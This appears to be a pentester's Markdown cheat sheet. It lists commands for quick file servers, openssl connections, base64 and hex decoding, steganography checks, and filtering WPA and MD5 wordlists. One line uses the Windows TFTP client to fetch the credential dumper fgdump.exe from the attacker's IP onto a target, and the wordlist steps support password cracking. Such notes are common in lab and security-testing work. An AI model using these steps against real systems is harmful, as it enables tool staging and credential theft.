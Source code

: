 # FTP/TFTP server
- Python(FTP)
  - 2
    ~~~sh
    pip install pyftpdlib
    python -m pyftpdlib -p 21
    ~~~
  - 3
    ~~~sh
    pip3 install pyftpdlib
    python3 -m pyftpdlib -p 21
    ~~~
- Metasploit(TFTP)
  ~~~sh
  use auxiliary/server/tftp
  set TFTPROOT /path/to/dir
  run
  ~~~

  - Client(Windows)
    ~~~sh
    # Manual: https://technet.microsoft.com/en-us/library/ff698993(v=ws.11).aspx
    TFTP.EXE -i ${MyIP} get fgdump.exe C:\Users\Public
    ~~~

# HTTP server
- Python
  - 2
    ~~~sh
    python -m SimpleHTTPServer 8888
    ~~~
  - 3
    ~~~sh
    python3 -m http.server 8888
    ~~~

# SSL commands
- connect
  ~~~sh
  openssl s_client -connect ${TARGET}:${PORT} -crlf
  ~~~

# Base64
- decode
  ~~~sh
  echo -n "QWxhZGRpbjpvcGVuIHNlc2FtZQ==" | base64 -d
  echo -n "QWxhZGRpbjpvcGVuIHNlc2FtZQ==" | openssl enc -d -base64
  ~~~
- encode
  ~~~sh
  echo -n "string" | base64 -e
  echo -n "string" | openssl enc -e -base64
  ~~~

# Hex
- decode
  ~~~sh
  echo -n "46 4c 34 36 5f 33 3a 32 396472796 63637756 8656874" | xxd -r -ps
  ~~~

# Analize files
- Steganography
  - on Linux
    ~~~sh
    exiftool file.png
    steghide extract -sf ./file.wav
    steghide extract -sf ./image.jpg
    steghide info ./image.jpg
    ~~~

# Operate text files
- Remove words less than 8 characters (for WPA)
  ~~~sh
  TEXTFILE="really_big_list.txt"
  cat ${TEXTFILE} | sort -u | pw-inspector -m 8 -M 63 > wpa_wordlist.txt
  ~~~

- remove first 15 lines from a text file
  ~~~sh
  sed -i 1,15d ${TEXTFILE}
  ~~~

- remove non numeric characters from a files
  ~~~sh
  tr -cd '0-9\012' < ./myfile.sorted > myfile.sorted2
  ~~~

- keep line/words with more than 32 characters/bits  (for MD5 filtering)
  ~~~sh
  awk 'length>=32' ./list.txt > ./list.sorted
  ~~~

- newline after each blank space
  ~~~sh
  sed -i 's/ /\n/g' ./test
  ~~~
